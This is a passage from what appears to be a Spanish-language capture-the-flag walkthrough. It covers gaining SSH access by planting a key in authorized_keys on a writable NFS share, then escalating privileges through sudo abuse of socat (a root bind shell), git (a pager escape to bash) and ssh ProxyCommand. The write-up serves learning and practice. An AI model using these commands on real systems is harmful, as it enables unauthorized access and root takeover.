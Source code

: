 4. Configuración de acceso SSH:
```bash
# Como usuario peter
mkdir .ssh
ssh-keygen
cat ~/.ssh/id_rsa.pub > /mnt/peter/.ssh/authorized_keys
```

{{% note %}}
Pasos para explotar el vector de Peter:

1. Escaneo inicial:
   - Puerto 22 (SSH)
   - Puerto 2049 (NFS)
   - Identificación de recursos compartidos

2. Montaje NFS:
   - Verificación de permisos
   - Identificación de archivos
   - Preparación de exploit

3. Técnicas de explotación:
   - Manipulación de .ssh
   - Creación de authorized_keys
   - Acceso SSH como Peter
{{% /note %}}

---

### Vector 2: Privilegios de Bob
#### Abuso de permisos sudo

1. Verificación de permisos:
```bash
sudo -l
# Múltiples binarios disponibles: socat, git, etc.
```

2. Explotación vía socat:
```bash
# Primera terminal
sudo socat TCP-LISTEN:9999,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane

# Segunda terminal
socat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:9999
```

3. Explotación vía git:
```bash
sudo git help status
!/bin/bash -p
```

4. Otros binarios disponibles:
```bash
sudo ssh -o ProxyCommand='./sshex.sh' localhost:8
./bbash -p
```
